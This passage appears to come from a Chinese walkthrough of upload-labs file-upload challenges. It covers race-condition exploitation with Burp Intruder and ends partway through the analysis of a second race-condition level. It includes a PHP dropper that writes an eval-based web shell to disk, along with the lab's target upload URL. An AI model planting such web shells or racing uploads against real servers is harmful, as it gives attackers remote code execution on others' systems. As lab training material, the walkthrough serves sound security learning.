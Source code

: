 **创建母马**
```php
<?php
// 生产子马
file_put_contents('2.php','<?php @eval(_REQUEST[8]);?>')
?>
```

**上传**

截断，并发送到 **intruder** 进行攻击

![](https://nc0.cdn.zkaq.cn/md/8461/7d2e9937a61d892545f359dd4d52c71d_76997.png)

设置 **null payloads**， 上传次数等


![](https://nc0.cdn.zkaq.cn/md/8461/3343ca391aeea082c8c6e3c75666de55_86378.png)

**产马**

上传任意图片，获取上传地址， 构造请求
```
http://59.63.200.79:8016/Pass-17/upload/m-horse.php
```

![](https://nc0.cdn.zkaq.cn/md/8461/b3c7da239ca9404e5e83752f585a5ee0_64335.png)

设置 payload 信息
![](https://nc0.cdn.zkaq.cn/md/8461/ef62ab261057dd228ddb711434dbc0be_63669.png)

**run**

开启以上两个 intruder， 等待结果。

略

## 18. 条件竞争2

上传任意图片，提示 上传目录不可写


![](https://nc0.cdn.zkaq.cn/md/8461/0c1857c1e19aea6773bd396f71d4ab13_79554.png)

分析源码， 确认上传流程是先到 临时目录， 在 move 到正式目录。

![](https://nc0.cdn.zkaq.cn/md/8461/73de663ec465a2695b198c90a05e2e82_33962.png)

报错提示为，检查目标文件是否可写的时候触发的。

![](https://nc0.cdn.zkaq.cn/md/8461/b42f8d1c612069c0bc315b9c76a41331_93518.png)

![](https://nc0.cdn.zkaq.cn/md/8461/69b9dbb66946e4e155cc7a1e01d55e92_74196.png)

报错触发此时， 文件已经上传到临时目录。 因此可以使用条件竞争方式，创建子马。

那么， 临时目录又是什么呢？
